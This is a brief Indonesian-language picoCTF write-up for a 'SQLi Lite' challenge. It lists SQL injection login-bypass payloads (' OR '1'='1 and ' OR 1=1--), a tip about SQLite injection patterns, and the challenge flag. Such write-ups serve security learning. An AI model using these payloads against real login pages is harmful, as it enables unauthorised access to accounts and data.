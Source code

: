 # PicoCTF - SQL Injection Writeup

## Challenge: "SQLi Lite"
Situs login vulnerable terhadap SQL injection.

### 🔍 Payload yang digunakan
```sql
Username: ' OR '1'='1
Password: ' OR '1'='1
```

### 💡 Tips

- Coba `' OR 1=1--` juga jika kolom terbatas.
- Gunakan `sqlite` injection patterns jika backend-nya SQLite.


### 🏁 Flag

Ditemukan di dashboard admin setelah login bypass:
```sql
picoCTF{sql_inj3ct10n_works}
```